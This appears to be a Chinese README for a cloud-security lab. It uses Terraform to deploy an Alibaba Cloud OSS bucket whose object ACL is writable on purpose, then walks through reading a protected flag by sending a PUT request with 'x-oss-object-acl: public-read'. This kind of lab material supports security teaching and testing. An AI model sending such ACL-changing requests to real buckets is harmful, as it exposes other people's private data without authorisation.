




# 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本。
虽然你在实际环境中可能不会遇到，但是玩的愉快

## Git clone

```bash
cd /TerraformGoat/aliyun/oss/object_acl_writable/ 
```

配置阿里云访问凭证

```shell
aliyun configure
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

```bash
terraform init
terraform apply
```

在确认没有问题后，输入yes回车即可快速构建

直接访问该存储桶的/flag.txt



```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

但是我们可以通过*?acl*来查看这个对象的ACL权限



随后可以通过PUT方法，将对象的ACL修改为public-read即可，我们需要在请求头添加*x-oss-object-acl*参数

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```



成功修改了对象的ACL，现在使用GET方法来获取



## 销毁挑战

```bash
terraform destroy
```

随后输入yes，等待销毁即可
